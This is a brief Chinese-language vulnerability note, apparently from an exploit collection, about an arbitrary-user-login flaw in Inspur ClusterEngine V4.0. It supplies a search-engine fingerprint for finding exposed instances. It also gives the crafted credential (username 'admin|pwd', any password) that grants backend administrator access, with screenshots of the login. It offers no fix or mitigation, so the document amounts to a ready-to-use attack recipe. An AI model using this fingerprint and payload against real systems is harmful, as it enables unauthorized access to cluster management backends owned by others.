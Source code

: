 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](./images/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](./images/202202091850228.png)